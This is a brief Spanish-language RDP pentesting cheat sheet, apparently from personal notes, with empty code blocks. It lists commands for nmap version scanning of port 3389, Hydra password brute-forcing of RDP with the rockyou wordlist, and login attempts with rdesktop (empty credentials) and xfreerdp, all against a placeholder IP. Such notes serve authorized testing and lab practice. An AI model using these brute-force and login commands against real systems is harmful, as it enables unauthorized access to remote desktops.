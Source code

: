 # Nmap

Enumerar versiones `nmap -sV -p 3389 10.10.10.10`

```java

```

# Hydra

`hydra -t 1 -V -f -l usuario -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10`

```java

```

# Rdesktop

`rdesktop -u "" -p "" 10.10.10.10`

```java

```

# Xfreerdp

`xfreerdp /v:10.10.10.10 /u:usuario /p:password`

```java

```

